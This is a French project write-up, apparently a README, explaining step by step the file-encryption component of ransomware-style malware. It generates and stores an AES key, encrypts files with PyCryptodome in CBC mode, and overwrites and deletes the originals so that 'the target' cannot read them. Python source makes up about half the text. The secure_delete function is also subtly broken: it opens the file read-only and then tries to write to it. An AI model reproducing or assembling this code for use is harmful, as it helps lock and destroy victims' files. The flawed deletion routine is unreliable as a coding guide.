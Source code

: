 ## Chiffrement des fichiers

Le chiffrement des fichiers se fait par le module encrypt_files.

### Génération de la clé AES

Voici le module pour générer la clé AES.
Ici, nous utilisons la librairie PyCryptodome pour générer une suite de bytes aléatoires que nous allons utiliser comme clé de chiffrement.
Ensuite, nous enregistrons cette clé dans un fichier keyfile.key afin de pouvoir la réutiliser pour chiffrer les fichiers et ensuite déchiffrer les fichiers.


```python
def save_key(key, keyfile_path):
    """Cette fonction permet d'enregistrer la clé générer dans un fichier afin de pouvoir la
    partager et la réutiliser pour chiffrement et déchiffrement du dossier

    Args:
        key: clé secrète AES
        keyfile_path: le fichier dans lequel sera enregistrée la clé
    """
    with open(keyfile_path, 'wb') as keyfile:
        keyfile.write(key)
    print(f"Clé enregistrée dans {keyfile_path}.")
    
def generate_key():
    key = get_random_bytes(32)
    key_file_path = "keyfile.key"
    save_key(key, key_file_path)
```


### Récupération de la clé AES

Ici, nous tentons tout d'abord de récupérer la clé générée au préablable en indiquant le chemin du fichier dans lequel est enregistré la clé (keyfile.key).
La fonction load_key tente d'ouvrir et lire ce fichier.
Si la fonction échoue, afin d'éviter un crash du programme, nous générons et enregistrons une nouvelle clé grâce à la fonction generate_key du module generate_key.

```python
def load_key(keyfile_path):
    with open(keyfile_path, 'rb') as keyfile:
        return keyfile.read()

keyfile_path = "keyfile.key"       
try:
    key = load_key(keyfile_path)
except Exception as e:
    generate_key()
```

### Chiffrement des fichiers
Ici, nous chiffrons les fichiers grâce à une itération sur chaque fichier, qui est ensuite chiffré avec la fonction encrypt_file.

La fonction encrypt_file prend en paramètres le chemin du fichier et la clé de chiffrement.
Nous ouvrons d'abord le fichier avec python en mode binaire (c'est la signification de l'option 'rb').
C'est important d'ouvrir le fichier en mode binaire parce qu'AES ne peut chiffrer que des octets et non du texte. Nous enregistrons ainsi le contenu du fichier sous forme de bytes dans la variable file_data.
Ensuite nous créons un nouveau object AES de la lirairie PyCryptodome en mode CBC (Cipher Block Chaining), qui doit nous permettre de chiffrer le fichier.

Explication des fonctions de la librairie : 

pad()
Le padding est nécessaire parce qu'AES travaille avec des blocs de taille fixe (16 octets pour AES). Si les données du fichier ne sont pas un multiple de la taille de bloc, la fonction pad ajoute des octets supplémentaires pour compléter le dernier bloc.

cipher.iv
Le mode CBC nécessite un vecteur d'initialisation (IV) pour fonctionner. Il est ajouté au début du texte chiffré. L'IV permet une part d'aléatoire au chiffrement.

Aisni, la fonction encrypt_file retourne une combinaison du vecteur d'initialisation (cipher.iv), qui occupe les 16 premiers octets et du texte chiffré (cipher.encrypt(...)) qui suit.

```python
def encrypt_file(file_path, key):
    with open(file_path, 'rb') as f:
        file_data = f.read()
    cipher = AES.new(key, AES.MODE_CBC)
    ciphertext = cipher.iv + cipher.encrypt(pad(file_data, AES.block_size))
    return ciphertext
```

### Suppression des fichiers originaux pour empêcher la lecture

Enfin, nous supprimons les fichiers d'origine pour empêcher la lecture par la cible.
D'abord, nous récupérons la taille du fichier en octets (nombre total d'octets dans le fichier).
Cette information est nécessaire pour savoir combien de données aléatoires doivent être écrites pour écraser complètement le fichier. 
os.urandom(file_size) génère ensuite une séquence d'octets aléatoires de longueur égale à file_size.
Ces octets sont cryptographiquement sûrs, ce qui rend leur récupération extrêmement difficile. Puis, f.write écrit les octets générés directement dans le fichier, remplaçant son contenu existant. Cela garantit que l'ancien contenu est écrasé avant que le fichier ne soit supprimé.
os.remove(file_path) supprime enfin le fichier du système de fichiers après écrasement de son contenu.


```python
def secure_delete(file_path):
    try:
        with open(file_path, 'rb') as f:
            file_size = os.path.getsize(file_path)
            f.write(os.urandom(file_size))
        os.remove(file_path)
    except Exception as e:
        print(f"Erreur lors de la suppression sécurisée de {file_path}: {e}")
```

